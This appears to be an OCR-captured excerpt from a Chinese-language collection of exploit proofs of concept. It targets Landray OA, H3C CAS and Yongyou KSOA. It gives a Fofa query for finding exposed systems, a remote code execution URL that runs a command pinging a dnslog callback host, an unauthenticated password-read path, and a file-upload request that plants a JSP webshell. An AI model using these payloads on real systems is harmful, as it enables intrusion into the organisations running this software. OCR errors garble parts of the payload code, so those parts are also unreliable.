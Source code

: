 ```
------WebKitFormBoundaryJjb5ZAJOOXO7fwjs Content-Disposition: form-data; name="FormData" {'USERNAME':'','RECORDID':'undefined','OPTION':'SAVEFILE','FILENAME':'test.php'} ------WebKitFormBoundaryJjb5ZAJOOXO7fwjs--
```





## 蓝凌OA授权RCE和未授权RCE

#### Fofa搜索资产

```
app="Landray-OA系统"
```

#### URL

其中xxxx.dnslog.cn为你dns回连的地址

```
/data/sys-common/datajson.js?s_bean=sysFormulaSimulateByJS&script=function test(){ return java.lang.Runtime};r=test();r.getRuntime().exec("ping -c 4 xxxx.dnslog.cn")&type=1
```

poc：

https://github.com/SakuraHack-Y/Landray-oa-rce



## H3C CAS云计算平台分布式存储管理系统任意用户密码读取

```
/user/user/1
```





## 用友时空KSOA软件前台文件上传漏洞

漏洞等级：高危

```
POST /servlet/com.sksoft.bill.ImageUpload?filepath=/&filename=gmtxj.jsp HTTP/1.0
Host:xox.com
content-Length:247
Accept-Encoding:identity
Accept-Language:zh-CN,zh;q=0.8 Accept:*/*
User-Agent:Mozlla/5.0 (Windows NT 5.1; rv.5.0) Gecko/20100101 Firetox15.0 Zerolab-P/v3.2 Accept-Charset:GBK,utf-8;q=0.7,*;q=0.3 Zerolab-Scan;Zerolab-PN3.2
Referer:http:lwww.baidu.com
cache-controL:max-age=0x-varnlish:196324196

<%
out.printin(new String(new sun.misc.BASE64Decoder().decodeBuffer("ZTE2NTQyMTExMGJhMDMwOTIhMWIMwMzKZMzCZYZViNDM="); new java.io.File(application.getReallPath(request getServletPathOl).delete();
%>
```
